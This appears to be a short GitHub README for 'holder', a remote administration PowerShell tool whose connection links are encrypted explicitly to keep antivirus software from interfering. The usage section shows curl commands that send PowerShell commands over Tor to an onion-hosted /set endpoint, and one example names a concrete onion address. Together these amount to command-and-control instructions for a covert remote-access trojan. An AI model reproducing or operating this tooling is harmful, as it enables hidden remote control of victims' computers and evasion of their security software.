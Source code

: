 # holder
Contains remote administration powershell script, as well as links used for connection that have been encrypted to prevent AVs from interfering.

## Usage
```batch
curl --socks5-hostname 127.0.0.1:9050 -X POST -H "Content-Type: text/plain" --data "<Powershell command>" http://<onion-link>.onion/set
```
Example usage:
```batch
curl --socks5-hostname 127.0.0.1:9050 -X POST -H "Content-Type: text/plain" --data "Get-Date" http://ld52qe2n47otqd63u4jqv26yyev64z2jucgidqisriv7x3fxuoetfjid.onion/set
```
